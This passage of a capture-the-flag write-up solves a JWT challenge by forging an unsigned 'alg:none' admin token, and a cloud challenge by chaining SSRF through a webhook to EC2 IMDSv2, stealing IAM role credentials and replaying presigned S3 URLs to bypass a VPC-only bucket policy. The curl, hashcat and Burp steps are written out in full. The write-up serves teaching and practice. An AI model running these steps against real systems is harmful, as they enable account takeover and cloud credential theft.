**Mapping the app.** Everything lives under the portal base `https://ctf.fampay.co/famctf/`. I registered a **fresh user** via `/register`, logged in, and landed on `/dashboard`. The UI was deliberately dead: a "vault" locked on the left, another "no access" panel lower down, and not a single button did anything — including the vault. Watching traffic in Burp, the only real endpoints were:

```
POST /register   POST /login   GET /dashboard   (and the locked /admin)
```


**The token.** The `/login` response handed back a **JWT** in the `nx_access` cookie, which the dashboard then sends on every request. I decoded it on [jwt.io](https://jwt.io):

```
header : { "alg": "HS256", "typ": "JWT" }
payload: { "sub": "bruno", "role": "user" }
```



Obvious target: get `role: admin` and reach the locked admin area. The catch is the HS256 signature — change the payload and a server that verifies properly rejects it.

**Wrong turns (the long way round).** Roughly in the order I flailed:

- **Edit the payload, keep the structure.** Flipped `role` to `admin`; tried `sub: admin`, `sub: administrator` — all rejected (signature mismatch). *(I also poked `alg:none` here — but, I'm fairly sure, with a botched payload, so it "failed" and I wrongly crossed it off. Hold that thought.)*
- **Recon via `/register`.** Re‑registering a name returns "username already taken" — a free user‑enumeration oracle. `administrator` was **already taken**, so a real `administrator` account exists. Also: I couldn't just register `admin`/`administrator` and *be* them.
- **Hidden‑parameter stuffing on `/register`.** The register body was URL‑encoded; I tried smuggling `role=admin`, `group=admin`, `is_admin=true`, and the same as JSON — none of it changed my role.
- **Crack the HS256 secret with hashcat.** (Not actually needed here — filing it under "tools I reached for that didn't pan out.") I threw the token at `hashcat -m 16500`: `rockyou.txt`, a JWT‑secrets wordlist, rules, and 4–6 digit masks. Every run came back `Status: Exhausted` — no hit. *(screenshots: `img/05-hashcat.png`)*
- **SQLi** on the login/register inputs. Nothing.

**The reset.** I went back and re‑read the **hint**, and it was pointing at the **token itself** — not the database (so, not SQLi), not a weak secret (so, not hashcat). That nudged me back to the one thing I'd dismissed too early: `alg:none`.

<a id="vd-solution"></a>
**✅ What actually worked — `alg:none`.** The JWT spec allows an `alg` of `none`, meaning *no signature at all*. A verifier that trusts the header's `alg` instead of pinning it will accept an unsigned token as genuine. I built the forged token right in **[jwt.io](https://jwt.io)'s JWT Encoder** — set the header to `{"alg":"none","typ":"JWT"}` and the payload to `{"sub":"bruno","role":"admin"}`. It emits an *"Unsecured JWT"* (it even labels it as RFC 7519 §6) with an empty signature:

```
header  = base64url({"alg":"none","typ":"JWT"})
payload = base64url({"sub":"bruno","role":"admin"})
token   = <header>.<payload>.          # trailing dot, empty signature
```



*(Using jwt.io here is harmless — the encoder runs in the browser and an `alg:none` token has no secret in it. The one habit worth keeping: don't paste a real, signed, sensitive token into a third‑party site; for a throwaway CTF token it's fine.)*

Then, in **Burp Repeater**, I swapped that token into the `nx_access` cookie and replayed the request to the locked area:

```http
GET /famctf/admin HTTP/2
Host: ctf.fampay.co
Cookie: nx_access=<alg:none token — {"alg":"none"} . {"sub":"bruno","role":"admin"} . >
```

The server replied **"Identity verified — elevated access granted for bruno"** and rendered the Admin Vault — classified payload and all — with the flag inside.



**Flag:** `FAM{...}` *(from the `/admin` response)*

> 📝 **The real lesson — keep a probe log.** My entire detour happened because I tested `alg:none` *once*, with a bad payload, and crossed it off the list. A one‑line note ("alg:none + role:admin → tried?") would have saved me the hashcat and SQLi rabbit holes. While you're poking auth, write down every combination and its result, and change **one variable at a time** — otherwise a good technique gets buried under a sloppy first attempt.

**Lesson for next time:** when auth is a JWT, test `alg:none` *carefully* and early — and don't retire a technique because one messy attempt failed. Also worth trying: algorithm confusion (RS256→HS256 using the public key as the HMAC secret) and weak/known HMAC secrets (that last one is the legitimate use of `hashcat -m 16500`).

---

## 06 — The Cloud
**Cloud · 500**

> **In a hurry?** [⏩ Jump to the pivot that won it](#cloud-solution) — though each blocked step is what explains the next, so this one rewards reading straight through.

> 📌 **The brief.** *"An internal DevOps monitoring dashboard was accidentally deployed with debug endpoints enabled on a public‑facing EC2 instance… get the flag from the [S3] bucket."* → *hint: debug endpoints reveal more than intended. The instance knows who it is.* Plus a note that the box takes ~30s to finish setting up after you're given the IP. *(screenshot: `img/06-hint.png`)*

SSRF → EC2 metadata → stolen IAM role → a bucket I couldn't touch from my laptop → presigned‑URL pivot. This one had two separate "oh, that's why it's blocked" moments.

> Instance IP redacted as `<INSTANCE_IP>` (the target handed us a raw IP — I'm keeping it out of the write‑up).

**Recon.** Only port 80 — a Flask app ("NexOps Dashboard"). The homepage helpfully listed its own routes:

```
GET  /status  /metrics/system  /metrics/config  /metrics/endpoints
POST /internal/webhook   "Webhook trigger [internal]"
```

A "webhook trigger" that fetches a URL for you is an **SSRF** waiting to happen. And `/metrics/config` basically handed me the map:

```json
{"identity":{"imds":"http://169.254.169.254/latest/meta-data/iam/security-credentials/"},
 "storage":{"bucket":"fam-ctf-cloud-challenge","prefix":"players/225","region":"ap-south-1",
            "note":"bucket access restricted to requests originating from within vpc"}}
```



The challenge hint — *"the instance knows who it is"* — plus that `imds` URL = go after EC2 Instance Metadata, which hands out the instance's IAM role creds. The webhook's own usage note said it only allows `169.254.x.x` and `*.amazonaws.com`.

**Wrong turn #1 — hitting IMDS by its IP.**

```bash
curl -s -X POST "http://<INSTANCE_IP>/internal/webhook?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"
# {"error":"Direct access to internal IP ranges is not allowed.","hint":"Try harder. The instance has a name."}
```

Blocked by a string filter on the IP — but the hint spelled out the fix: *the instance has a name.*

**Pivot — the IMDS DNS alias.** AWS resolves `instance-data` to `169.254.169.254`, which walks straight past an IP‑string filter:

```bash
curl -s -X POST "http://<INSTANCE_IP>/internal/webhook?url=http://instance-data/latest/meta-data/iam/security-credentials/"
# {"body":"","status":401,...}
```

Reached IMDS — but `401`. That's **IMDSv2** enforced: you need a session token first. (Fun detail: `instance-data.ec2.internal` was *not* on the allow‑list, but bare `instance-data` was.)

**The IMDSv2 token dance — through the SSRF.** IMDSv2 wants a `PUT /latest/api/token` with a TTL header, then a `GET` carrying that token. I tested and the webhook **forwards both my method and my headers** to the target, which is exactly what makes this possible:

```bash
TOK=$(curl -s -X PUT "http://<INSTANCE_IP>/internal/webhook?url=http://instance-data/latest/api/token" \
  -H 'X-aws-ec2-metadata-token-ttl-seconds: 21600' | sed -n 's/.*"body":"\([^"]*\)".*/\1/p')

ROLE=$(curl -s "http://<INSTANCE_IP>/internal/webhook?url=http://instance-data/latest/meta-data/iam/security-credentials/" \
  -H "X-aws-ec2-metadata-token: $TOK" | sed -n 's/.*"body":"\([^"]*\)".*/\1/p')
# -> ctf-cloud-player-225

curl -s "http://<INSTANCE_IP>/internal/webhook?url=http://instance-data/latest/meta-data/iam/security-credentials/$ROLE" \
  -H "X-aws-ec2-metadata-token: $TOK"
# -> AccessKeyId / SecretAccessKey / Token   (redacted)
```



**Wrong turn #2 — using the creds straight from my laptop.**

```bash
export AWS_ACCESS_KEY_ID=... AWS_SECRET_ACCESS_KEY=... AWS_SESSION_TOKEN=... AWS_DEFAULT_REGION=ap-south-1
aws sts get-caller-identity     # works — confirms the assumed role is real
aws s3 ls s3://fam-ctf-cloud-challenge/players/225/
# AccessDenied ... "with an explicit deny in a resource-based policy"
```

The creds are genuinely valid (STS is happy), but the **bucket policy explicitly denies anything not from inside the VPC** — which is literally what the config warned about. My laptop is outside the VPC, so: denied.

<a id="cloud-solution"></a>
**✅ Pivot — presigned URL replayed through the SSRF.** If the request has to come from the instance, make the instance send it. A presigned URL carries the whole SigV4 signature in the query string, so I don't depend on header forwarding and I let the AWS CLI do the signing (no hand‑rolled crypto). Then the webhook just GETs it — from inside the VPC:

```bash
U=$(aws s3 presign "s3://fam-ctf-cloud-challenge/players/225/flag.txt" --expires-in 600 --region ap-south-1)
curl -s -G "http://<INSTANCE_IP>/internal/webhook" --data-urlencode "url=$U"
```

(To find the exact key I presigned a `list_objects_v2` and sent *that* through the webhook; the returned XML showed the object under `players/225/`.)



**Flag:** `FAM{...}` *(paste the S3 object contents)*

**Lessons for next time:**
- A fetch/webhook/proxy endpoint on a cloud box ⇒ assume SSRF → IMDS and go straight for `iam/security-credentials/`.
- IMDS IP filtered? Use the `instance-data` DNS alias.
- `401` from IMDS = IMDSv2 ⇒ do the `PUT /latest/api/token` dance, and check whether your SSRF forwards method + headers.
- Stolen creds giving `AccessDenied` with *"explicit deny in a resource‑based policy"* = a VPC‑scoped bucket policy. Stop hitting it from your box; replay a **presigned** request through the same SSRF so it originates in the VPC.

---

## What I walked away with
- **Static:** jadx for Java, Ghidra for native, `strings`/radare2 for quick dumps — and recognising algorithms by their magic constants.
- **Firebase:** App Check `provider:"debug"` ⇒ a replayable debug token ⇒ `exchangeDebugToken` ⇒ a real attestation JWT.
- **Native crypto:** reverse it, port it, and use the server's error messages as an oracle to verify — and watch for input‑specific backdoors.
- **Web/JWT:** try `alg:none` and algorithm confusion before anything fancy.
- **Cloud:** SSRF → IMDSv2 → IAM role → S3; beat IP filters with DNS aliases; beat VPC‑scoped bucket policies by replaying presigned requests through the SSRF.

*Credentials, tokens, the instance IP, and the actual flag values are deliberately left out — the challenges are live and I'd rather you earn them than paste them. I used an LLM to help read decompiled code and check my reasoning; the solving was a back‑and‑forth and I've tried to keep the account honest, wrong turns and all.*
